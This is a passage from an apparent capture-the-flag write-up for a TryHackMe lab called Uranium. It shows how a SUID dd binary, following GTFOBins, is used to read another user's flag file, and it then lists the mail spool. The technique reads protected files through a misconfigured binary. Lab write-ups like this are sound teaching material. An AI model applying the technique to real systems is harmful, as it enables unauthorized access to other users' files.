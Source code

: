 **According to [GTFOBins](https://gtfobins.github.io/gtfobins/dd/#suid), we can write and read any file as user `web`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230217161627.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Uranium-CTF/images/Pasted%20image%2020230217162622.png)

**web_flag.txt:**
```shell
kral4@uranium:~$ /bin/dd if=/var/www/html/web_flag.txt
thm{Redacted}
[...]
```

However, there's nothing we can do to escalate privilege to user `web` beside reading the flag...

**In `/var/mail`, we can see there are 2 mail files:**
```shell
kral4@uranium:~$ ls -lah /var/mail/
total 16K
drwxrwsr-x  2 root     mail 4.0K Feb 17 08:26 .
drwxr-xr-x 14 root     root 4.0K Apr  9  2021 ..
-rw-------  1 hakanbey mail  938 Feb 17 08:26 hakanbey
-rw-------  1 kral4    mail 1.1K Apr 24  2021 kral4
```

